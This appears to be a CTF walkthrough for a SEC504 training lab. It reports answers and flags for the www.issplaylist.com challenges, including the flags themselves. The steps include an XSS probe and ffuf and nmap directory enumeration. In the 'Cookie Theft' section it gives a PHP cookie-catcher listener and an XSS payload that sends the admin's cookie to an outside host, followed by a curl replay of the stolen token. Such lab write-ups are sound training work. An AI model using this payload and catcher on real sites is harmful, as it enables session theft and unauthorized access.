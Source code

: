 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **www.issplaylist.com** section challenges.  
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Contact
**Question:**  
Interact with the contact form on the www.issplaylist.com website. What is the flag returned as the reference number?

**Steps Taken:**
I navigated to <https://www.issplaylist.com/contact.html> and typed `Mike` into the First Name box. After clicking **Submit**, the page responded with a reference number, which was the flag I needed.  

<details>
  <summary>Click to reveal the flag</summary>

  `NetWars{ReceivedSubmission}`

</details>

---

## Vulnerability Discovery
**Question:**  
Explore the Contact page on the www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.

**Steps Taken:**
At first, I tested for **command injection** in every form field. Nothing interesting came back, so I moved on. Next, I decided to test for **Cross-Site Scripting (XSS)**, since it made the most sense for a form like this. I submitted the following payload:  

```html
Mike<script>alert(1)</script>
```

The result was immediate — a popup alert appeared, confirming an XSS vulnerability.  

<details>
  <summary>Click to reveal the answer</summary>

  `Cross-Site Scripting`

</details>

---

## Information Gathering
**Question:**  
Identify the hidden page on the www.issplaylist.com server. Submit the page name (XXXXX.html).

**Steps Taken:**
I launched **ffuf** to brute force potential directories:  

```bash
ffuf -w common.txt -u https://www.issplaylist.com/FUZZ -s -mc 200,301
```

The results showed: `admin`, `images`, `index.html`, and `res`. Testing them manually:  
- `images` and `res` returned Forbidden  
- `index.html` loaded fine (the main page)  
- `admin` loaded successfully, revealing the hidden admin page  

As an alternative, I knew I could also use Nmap’s `http-enum` script:  

```bash
nmap -n --script=http-enum www.issplaylist.com
```

But ffuf already confirmed the answer.  

<details>
  <summary>Click to reveal the answer</summary>

  `admin.html`

</details>

---

## Cookie Theft
**Question:**  
Administrators for the www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?

**Steps Taken:**
I leveraged the XSS vulnerability I had already discovered. To capture the admin’s cookie, I used a PHP cookie catcher script, modified from the course lab:  

```php
<?php
// Build log entry
$data = [
    'GET'     => $_GET,
    'POST'    => $_POST,
    'headers' => function_exists('getallheaders') ? getallheaders() : [],
];

// Convert to JSON
$json = json_encode($data, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT);

// Append to cookies.log
file_put_contents("cookies.log", $json . PHP_EOL, FILE_APPEND);

// Print to terminal if STDOUT is defined
if (defined('STDOUT')) {
    fwrite(STDOUT, $json . PHP_EOL);
}

// Send no content back to browser
http_response_code(204);
exit;
?>
```

I started a listener with:  

```bash
php -S 0.0.0.0:8080
```

Then, I submitted this payload into the First Name field:  

```html
Mike<script>document.location="http://10.142.148.3:8080/" + document.cookie</script>
```

When the admin later opened the submissions, their authentication cookie was sent to my listener. In my test, the cookie log showed:  

```
/authtoken=0f186582606b62965d90e772e76a8a5620b11af9
```

<details>
  <summary>Click to reveal the answer</summary>

  `authtoken`

</details>

---

## Unauthorized Access
**Question:**  
Use the stolen cookie to access the admin page. Submit the flag.

**Steps Taken:**
I took the stolen cookie and used it with `curl` to access the hidden admin page:  

```bash
curl -k -b "authtoken=0f186582606b62965d90e772e76a8a5620b11af9" https://www.issplaylist.com/admin.html | grep -i NetWars
```

The output included the flag:  

<details>
  <summary>Click to reveal the flag</summary>

  `NetWars{CongratsAdmin}`

</details>

